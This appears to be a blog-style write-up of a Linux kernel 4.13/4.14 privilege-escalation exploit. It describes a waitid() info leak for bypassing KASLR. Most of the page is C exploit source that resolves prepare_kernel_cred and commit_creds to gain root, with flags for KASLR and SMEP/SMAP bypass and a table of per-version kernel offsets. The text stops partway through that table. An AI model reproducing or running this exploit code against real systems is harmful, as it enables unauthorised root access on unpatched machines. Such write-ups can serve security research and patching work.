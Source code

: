 Try it Yourself :)

In addition 2, on *somewhere v4.13.x* when *kaslr* is on, we can bypass *kaslr* with **info leak** by using waitid().

Lastly, I just re-make(?) exploit-code with includding kaslr bypass :).
But maybe it worked on only *4.13.0 < x <= 4.13.4* and just patched somewhere *4.13.X or 4.14.0-rcX*.

```c
#define _GNU_SOURCE

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>

#include <sys/types.h>
#include <sys/wait.h>
#include <sys/mman.h>
#include <sys/utsname.h>
#include <sys/resource.h>

#include <syscall.h>

#define KASLR_BYPASS 1
#define SMEP_SMAP_BYPASS 0

struct cred;
struct task_struct;

typedef struct cred *(*prepare_kernel_cred_t)(struct task_struct *daemon)__attribute__((regparm(3)));
typedef int(*commit_creds_t)(struct cred *new)__attribute__((regparm(3)));

unsigned long kernel_base = 0;
prepare_kernel_cred_t prepare_kernel_cred;
commit_creds_t commit_creds;

// sudo sysctl -w vm.mmap_min_addr=0
// sudo cat /proc/kallsyms | grep _text | head -n 1

unsigned long k_offset[][4] = {
  { /* Linux Kernel 4.14.0-rc4+ info */ /* trigger! */
    0x753d0,
    0x75050,
    0xf3f45a,
  },
  { /* Linux Kernel 4.14.0-rc4 info */ /* triggered! but process is killed */
    0xaa6a0,
    0xaa310,
    0x106046c,
  },
  { /* Linux Kernel 4.13.0-16 info */ /* not triggered */
    0xa8530,    // prepare_kernel_cred
    0xa81a0,    // commit_creds
    0x105ff2c,  // have_canfork_callback
    0x1e540,    // native_read_cr4
  },
  { /* Linux Kernel 4.13.4 info */ /* trigger! but process is killed */
    0xa8340,
    0xa7fb0,
    0x105fe2c,
  },
  { /* Linux Kernel 4.13.8 info */ /* trigger! but process is killed */
```